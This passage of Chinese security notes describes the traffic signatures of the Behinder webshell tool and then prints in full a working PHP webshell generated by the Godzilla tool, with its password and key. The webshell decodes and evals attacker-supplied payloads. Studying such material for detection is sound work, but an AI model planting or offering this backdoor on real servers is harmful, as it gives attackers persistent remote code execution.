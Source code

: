 流量特征：

- 冰蝎最小的流量包，**请求头的content length都大于5000**。
- 采用POST方式进行连接。

#### 加解密

- 数据包中都是base64编码，WAF无法防御。

![img](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202211091045328.png)

### Godzilla 哥斯拉

Webshell代码：

- 生成php的webshell代码：管理→生成

```
密码：pass				
密钥：key 				# md5：3c6e0b8a9c15224a8228b9a98ca1531d
有效载荷：PhpDynamicPayload
加密器：PHP_XOR_BASE64
```

```php
# gozilla.php

<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='pass';
$payloadName='payload';
$key='3c6e0b8a9c15224a';   # key的md5前16位
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```
